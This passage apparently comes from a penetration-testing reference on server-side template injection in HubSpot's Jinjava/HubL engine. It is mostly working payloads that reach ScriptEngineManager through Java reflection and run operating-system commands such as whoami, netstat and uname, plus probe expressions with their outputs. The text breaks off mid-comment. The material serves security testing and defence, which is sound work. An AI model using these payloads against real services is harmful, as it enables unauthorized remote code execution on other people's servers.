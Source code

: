 Fixed by [https://github.com/HubSpot/jinjava/pull/230](https://github.com/HubSpot/jinjava/pull/230)



```
{{'a'.getClass().forName('javax.script.ScriptEngineManager').newInstance().getEngineByName('JavaScript').eval(\"new java.lang.String('xxx')\")}}

{{'a'.getClass().forName('javax.script.ScriptEngineManager').newInstance().getEngineByName('JavaScript').eval(\"var x=new java.lang.ProcessBuilder; x.command(\\\"whoami\\\"); x.start()\")}}

{{'a'.getClass().forName('javax.script.ScriptEngineManager').newInstance().getEngineByName('JavaScript').eval(\"var x=new java.lang.ProcessBuilder; x.command(\\\"netstat\\\"); org.apache.commons.io.IOUtils.toString(x.start().getInputStream())\")}}

{{'a'.getClass().forName('javax.script.ScriptEngineManager').newInstance().getEngineByName('JavaScript').eval(\"var x=new java.lang.ProcessBuilder; x.command(\\\"uname\\\",\\\"-a\\\"); org.apache.commons.io.IOUtils.toString(x.start().getInputStream())\")}}
```

**More information**

- [https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Server%20Side%20Template%20Injection/README.md#jinjava](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Server%20Side%20Template%20Injection/README.md#jinjava)
 

### 

[](https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection#hubspot-hubl-java)

Hubspot - HuBL (Java)

- `{% %}` statement delimiters
 
- `{{ }}` expression delimiters
 
- `{# #}` comment delimiters
 
- `{{ request }}` - com.hubspot.content.hubl.context.TemplateContextRequest@23548206
 
- `{{'a'.toUpperCase()}}` - "A"
 
- `{{'a'.concat('b')}}` - "ab"
 
- `{{'a'.getClass()}}` - java.lang.String
 
- `{{request.getClass()}}` - class com.hubspot.content.hubl.context.TemplateContextRequest
 
- `{{request.getClass().getDeclaredMethods()[0]}}` - public boolean com.hubspot.content.hubl.context.TemplateContextRequest.isDebug()
 

Search for "com.hubspot.content.hubl.context.TemplateContextRequest" and discovered the [Jinjava project on Github](https://github.com/HubSpot/jinjava/).



```
{{request.isDebug()}}
//output: False

//Using string 'a' to get an instance of class sun.misc.Launcher
{{'a'.getClass().forName('sun.misc.Launcher').newInstance()}}
//output: sun.misc.Launcher@715537d4

//It is also possible to get a new object of the Jinjava class
{{'a'.getClass().forName('com.hubspot.jinjava.JinjavaConfig').newInstance()}}
//output: com.hubspot.jinjava.JinjavaConfig@78a56797

//It was also possible to call methods on the created object by combining the 


```